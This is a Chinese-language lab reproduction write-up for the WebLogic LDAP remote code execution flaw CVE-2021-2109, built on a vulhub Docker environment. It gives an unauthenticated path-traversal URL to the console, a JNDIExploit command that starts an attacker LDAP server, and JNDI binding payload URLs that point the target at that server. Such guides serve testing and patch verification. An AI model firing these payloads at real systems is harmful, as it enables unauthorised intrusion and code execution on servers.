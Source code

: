 ```yaml
---
Title: Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109
---
```


# Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

## 漏洞描述

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

<a-checkbox checked>WebLogic Server 10.3.6.0.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.1.3.0.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.2.1.3.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 12.2.1.4.0</a-checkbox></br>

<a-checkbox checked>WebLogic Server 14.1.1.0.0</a-checkbox></br>

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://xxx.xxx.xxx.xxx:7001` 正常即可

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122357513-3368f5c9-1557-48c9-965c-478ae4d5867a.png)



## 漏洞复现

访问一下URL `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122379832-ab7a422e-fc91-4e0a-8c74-ae1b27ee365a.png)

如果有此页面未授权可访问，且在影响范围内则可能出现漏洞, 下载漏洞攻击需要的 LDAP启动脚本

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122389252-7e57ec2f-7b8c-40a6-9a93-af57d117aeec.png)



下载到服务器上启动

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122394942-2d2aefd9-5ed1-4d18-b721-f1b7c936263b.png)

然后配合 Weblogic未授权范围 命令执行

```plain
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

<a-alert type="success" message="注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;" description="" showIcon>
</a-alert>

<br/>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122414874-e7efeca4-04b4-46a6-b4d7-273500602833.png)

登录后台可使用此POC，未授权的话用上面的

```plain
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

